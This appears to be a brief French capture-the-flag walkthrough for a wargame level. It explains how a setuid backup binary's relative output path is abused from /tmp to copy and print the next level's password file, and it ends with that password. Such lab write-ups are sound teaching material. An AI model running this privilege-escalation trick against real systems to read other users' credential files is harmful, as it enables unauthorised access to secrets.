 En analysant le binaire, on voit qu'il ne fait pas enormement de choses :

Il prend un argument : un fichier
Il ouvre le fichier "./backups/.log" puis ecrit dedans "Starting back up: <nom_fichier>" et garde
un fd ouvert sur ce fichier.
Ensuite, il ouvre le fichier que nous lui avons passe en parametre, le probleme, c'est qu'il
utile un path relatif et non absolu : ./backups/

Du coup, il nous suffit de recreer ce chemin dans un dossier dans lequel nous avons les droits :

	$ cd /tmp
	$ mkdir -p backups/home/users/level09

Maintenant il nous suffit d'appeler le binaire via /tmp :

	$ ~/level08 /home/users/level09/.pass

Le contenu de /home/users/level09/.pass va etre ecrit dans /tmp/backups/home/users/level09/.pass !

	$ cat /tmp/backups/home/users/level09/.pass

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
